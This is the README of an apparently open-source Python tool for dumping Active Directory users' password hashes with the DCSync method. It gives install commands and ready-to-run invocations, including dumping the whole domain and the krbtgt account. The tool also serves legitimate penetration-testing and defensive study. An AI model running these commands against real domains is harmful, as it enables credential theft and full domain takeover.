


```
 ┓       
┏┫┏┏┓┏┏┓┏
┗┻┗┛┗┫┛┗┗
     ┛   
```

<p align="center">
    A python script for dumping domain users secrets using DCSync method.
    <br>
    
    
    <a href="https://twitter.com/intent/follow?screen_name=san__yohan" title="Follow"></a>
    <br>
</p>

## Installation

You can install it from pypi (latest version is ) with this command:

```bash
sudo python3 -m pip install dcsync
```

OR from source :

```bash
git clone https://github.com/AetherBlack/DCSync
cd DCSync
python3 -m venv .
source bin/activate
python3 -m pip install .
```

OR with pipx :

```bash
python3 -m pipx install git+https://github.com/AetherBlack/DCSync/
```

## Examples

- You want to DCSync the whole domain with Administrator privilegies :

```bash
dcsync $DOMAIN/$USER:"$PASSWORD"@$DC
```



- You want to DCSync for a single principal :

```bash
dcsync -just-user krbtgt -k $DOMAIN/$USER:"$PASSWORD"@$DC
```


- You want to DCSync the whole domain without Administrator privilegies using ldap method :

```bash
dcsync -method ldap $DOMAIN/$USER:"$PASSWORD"@$DC
```



You can use this methods :

```
samr (Default)
ldap
file
```

- You want to DCSync only a list of specific principals :

```bash
dcsync -just-user-file ./usersfile.txt $DOMAIN/$USER:"$PASSWORD"@$DC
```


## How it works

The tool will use the provided method to enumerate the users of the domain. Then, it will connect to the DC's RPC to dump their NT hash, LM hash, AES hash and history hash.

---

## Credits

- [@fortra](https://github.com/fortra/) for developping [impacket](https://github.com/fortra/impacket)

## License

[GNU General Public License v3.0](./LICENSE)
